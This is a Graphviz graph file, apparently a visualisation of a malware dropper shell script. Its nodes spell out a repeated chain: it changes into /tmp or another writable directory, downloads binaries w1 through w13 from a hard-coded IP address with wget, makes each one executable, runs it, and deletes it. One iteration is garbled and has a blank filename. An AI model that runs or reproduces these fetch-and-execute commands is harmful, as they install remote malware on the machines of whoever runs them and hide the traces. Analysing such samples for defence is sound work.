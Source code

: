 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://5.39.116.106/w1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x w1 "];
12 -> 14 [label=";,"];
14 [label="./w1 "];
14 -> 16 [label=";,"];
16 [label="rm -rf w1 "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://5.39.116.106/w2 "];
28 -> 30 [label=";,"];
30 [label="chmod +x w2 "];
30 -> 32 [label=";,"];
32 [label="./w2 "];
32 -> 34 [label=";,"];
34 [label="rm -rf w2 "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://5.39.116.106/w3 "];
46 -> 48 [label=";,"];
48 [label="chmod +x w3 "];
48 -> 50 [label=";,"];
50 [label="./w3 "];
50 -> 52 [label=";,"];
52 [label="rm -rf w3 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://5.39.116.106/w4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x w4 "];
66 -> 68 [label=";,"];
68 [label="./w4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf w4 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://5.39.116.106/w5 "];
82 -> 84 [label=";,"];
84 [label="chmod +x w5 "];
84 -> 86 [label=";,"];
86 [label="./w5 "];
86 -> 88 [label=";,"];
88 [label="rm -rf w5 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://5.39.116.106/w6 "];
100 -> 102 [label=";,"];
102 [label="chmod +x w6 "];
102 -> 104 [label=";,"];
104 [label="./w6 "];
104 -> 106 [label=";,"];
106 [label="rm -rf w6 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://5.39.116.106/w7 "];
118 -> 120 [label=";,"];
120 [label="chmod +x w7 "];
120 -> 122 [label=";,"];
122 [label="./w7 "];
122 -> 124 [label=";,"];
124 [label="rm -rf w7 "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://5.39.116.106/w8 "];
136 -> 138 [label=";,"];
138 [label="chmod +x w8 "];
138 -> 140 [label=";,"];
140 [label="./w8 "];
140 -> 142 [label=";,"];
142 [label="rm -rf w8 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://5.39.116.106/w9 "];
154 -> 156 [label=";,"];
156 [label="chmod +x w9 "];
156 -> 158 [label=";,"];
158 [label="./w9 "];
158 -> 160 [label=";,"];
160 [label="rm -rf w9 "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://5.39.116.106/w10 "];
172 -> 174 [label=";,"];
174 [label="chmod +x w10 "];
174 -> 176 [label=";,"];
176 [label="./w10 "];
176 -> 178 [label=";,"];
178 [label="rm -rf w10 "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://5.39.116.106/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://5.39.116.106/w12 "];
208 -> 210 [label=";,"];
210 [label="chmod +x w12 "];
210 -> 212 [label=";,"];
212 [label="./w12 "];
212 -> 214 [label=";,"];
214 [label="rm -rf w12 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://5.39.116.106/w13 "];
226 -> 228 [label=";,"];
228 [label="chmod +x w13 "];
228 -> 230 [label=";,"];
230 [label="./w13 "];
230 -> 231 [label=";,"];
}
